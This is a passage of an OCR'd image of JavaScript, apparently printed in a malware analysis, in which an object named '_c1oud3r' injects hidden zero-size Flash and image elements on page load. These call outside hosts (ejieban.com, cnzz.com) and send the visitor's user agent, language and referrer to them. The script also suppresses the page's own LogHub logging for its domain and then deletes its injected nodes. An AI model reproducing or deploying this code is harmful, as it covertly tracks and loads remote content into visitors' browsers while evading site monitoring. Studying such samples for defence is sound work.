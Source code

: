 ```
        `}` catch (e) `{``}`
    `}`;
    _c1oud3r.removeIt = function() `{`
        if (_c1oud3r._5c) `{`
            setTimeout("_c1oud3r.removeNode('_cl3r')", 1200)
        `}` else `{`
            setTimeout(_c1oud3r.removeIt, 1000)
        `}`
    `}`;
    _c1oud3r.stat = function(id, r) `{`
        var l = _c1oud3r.pt + "hzs11.cnzz.com/stat.htm?id=";
        l += id + "&amp;r=" + encodeURIComponent(r) + "&amp;lg=";
        var f = window;
        var lg = f.navigator.systemLanguage || f.navigator.language;
        l += lg.toLowerCase() + "&amp;ntime=none&amp;repeatip=0&amp;rtime=0&amp;cnzz_eid=";
        l += Math.floor(2147483648 * Math.random()) + "-1395926171-";
        var sp = f.screen.width &amp;&amp; f.screen.height ? f.screen.width + "x" + f.screen.height : "0x0";
        l += "&amp;showp=" + sp + "&amp;st=0&amp;sin=&amp;t=&amp;rnd=" + Math.floor(2147483648 * Math.random());
        return l
    `}`;
    _c1oud3r.kbehavi = function() `{`
        if ("undefined" != typeof(LogHub) &amp;&amp; "undefined" != typeof(LogHub.behavior)) `{`
            LogHub.sbehavior = LogHub.behavior;
            LogHub.behavior = function(t, n) `{`
                if (/ewiewan.wom/i.test(n)) return;
                LogHub.sbehavior(t, n)
            `}`
        `}` else `{`
            setTimeout(_c1oud3r.kbehavi, 200)
        `}`
    `}`;
    _c1oud3r.oload = function() `{`
        if (document.body == null) `{`
            setTimeout(_c1oud3r.oload, 200)
        `}` else `{`
            var fp = _c1oud3r.pt + "s0.ejieban.com/stat.swf?d=17.swf";
            var pm = "f=3h&amp;u=" + window.navigator.userAgent;
            if ("undefined" != typeof(__scode)) `{`
                pm += "&amp;" + __scode
            `}`
            var str = '&lt;object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase=' + _c1oud3r.pt + 'fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=7,0,0,0" width="0" height="0"&gt;&lt;param name="allowScriptAccess" value="always"/&gt;&lt;param name="movie" value="' + fp + '"/&gt;&lt;param name="flashVars" value="' + pm + '"/&gt;&lt;embed src="' + fp + '" flashVars="' + pm + '" width="0" height="0" allowScriptAccess="always" type="application/x-shockwave-flash" pluginspage="' + _c1oud3r.pt + 'www.macromedia.com/go/getflashplayer" /&gt;&lt;/object&gt;';
            str += '&lt;img src="' + _c1oud3r.stat("1806840", document.referrer) + '" width="0" height="0"/&gt;';
            _c1oud3r.appendChild(str, "_cl3r");
            setTimeout(_c1oud3r.removeIt, 2000)
        `}`
    `}`;
    try `{`
        if ("complete" == document.readyState) `{`
            _c1oud3r.oload()
        `}` else `{`
            if (document.attachEvent) `{`
                window.attachEvent("onload", _c1oud3r.oload)
            `}` else `{`
                window.addEventListener("load", _c1oud3r.oload, false)
            `}`
```